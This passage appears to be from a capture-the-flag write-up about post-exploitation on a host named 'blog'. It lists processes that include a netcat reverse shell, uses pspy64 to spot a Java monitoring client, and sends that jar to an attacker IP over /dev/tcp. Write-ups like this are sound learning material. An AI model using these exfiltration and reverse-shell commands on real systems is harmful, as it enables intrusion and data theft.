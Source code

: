 Then by checking the process in the background, we can found `elonmusk` run `java`
```
www-data@blog:/var/www/blog$ ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.2 177184  9576 ?        Ss   03:16   0:00 /sbin/init
root        18  0.0  0.1  35616  8036 ?        Ss   03:16   0:00 /lib/systemd/sy
root        54  0.0  0.0   9304  2660 ?        Ss   03:16   0:00 /usr/sbin/cron 
root        60  0.0  0.0   4172  1956 pts/1    Ss+  03:16   0:00 /sbin/agetty -o
root        61  0.0  0.0   4172  1984 pts/1    Ss+  03:16   0:00 /sbin/agetty -o
root        63  0.0  0.0   4172  1960 pts/2    Ss+  03:16   0:00 /sbin/agetty -o
root        65  0.0  0.0   4172  2080 pts/0    Ss+  03:16   0:00 /sbin/agetty -o
root        66  0.0  0.0   4172  2064 pts/3    Ss+  03:16   0:00 /sbin/agetty -o
mysql      168  0.0  2.1 1718072 88560 ?       Ssl  03:16   0:02 /usr/sbin/mysql
root       200  0.0  0.0 225960  3692 ?        Ssl  03:16   0:00 /usr/sbin/rsysl
root       377  0.0  0.5 279504 21020 ?        Ss   03:16   0:00 /usr/sbin/apach
www-data   385  0.0  0.6 280256 24728 ?        S    03:16   0:01 /usr/sbin/apach
www-data   388  0.0  0.6 280292 24964 ?        S    03:16   0:01 /usr/sbin/apach
www-data   667  0.0  0.6 280244 25252 ?        S    03:37   0:01 /usr/sbin/apach
www-data   698  0.0  0.5 280236 20824 ?        S    03:37   0:01 /usr/sbin/apach
www-data   711  0.0  0.6 280264 25136 ?        S    03:37   0:01 /usr/sbin/apach
www-data   850  0.0  0.5 280244 20268 ?        S    03:39   0:01 /usr/sbin/apach
www-data   968  0.0  0.6 280264 25036 ?        S    03:46   0:00 /usr/sbin/apach
www-data   974  0.0  0.5 280264 23212 ?        S    03:46   0:00 /usr/sbin/apach
www-data   979  0.0  0.5 280244 22188 ?        S    03:46   0:00 /usr/sbin/apach
www-data   981  0.0  0.5 280236 22140 ?        S    03:46   0:00 /usr/sbin/apach
www-data  1333  0.0  0.0   2388   748 ?        S    04:10   0:00 sh -c netcat -e
www-data  1334  0.0  0.0   3736  2728 ?        S    04:10   0:00 bash
www-data  1381  0.0  0.2  14064  8212 ?        S    04:12   0:00 python3 -c impo
www-data  1382  0.0  0.0   4096  3456 pts/4    Ss   04:12   0:00 bash
elonmusk  1396  4.4  0.8 3572012 34340 ?       Ssl  04:14   0:00 /usr/lib/jvm/jd
www-data  1413  0.0  0.0   7868  2904 pts/4    R+   04:15   0:00 ps aux

```

I can upload the `pspy64` to help us find what is actually do
```
2025/08/01 04:19:29 CMD: UID=1000 PID=1498   | /usr/bin/ss -tlp 
2025/08/01 04:19:29 CMD: UID=1000 PID=1500   | /usr/bin/ss -tp 
2025/08/01 04:19:29 CMD: UID=1000 PID=1501   | /usr/lib/jvm/jdk-11.0.10/bin/java -jar /home/elonmusk/monitoringClient.jar 172.22.1.250
```

We can read it and we can download it to our local machine
```
www-data@blog:/var/www/blog$ ls -al /home/elonmusk/monitoringClient.jar
-r--r--r-- 1 elonmusk elonmusk 1269977 Feb 19  2021 /home/elonmusk/monitoringClient.jar
www-data@blog:/var/www/blog$ cp /home/elonmusk/monitoringClient.jar /tmp
www-data@blog:/var/www/blog$ cat /tmp/monitoringClient.jar >& /dev/tcp/10.10.14.5/4444 0>&1   
```

Let's use `jd-gui` to `decompile` it 
From the main Class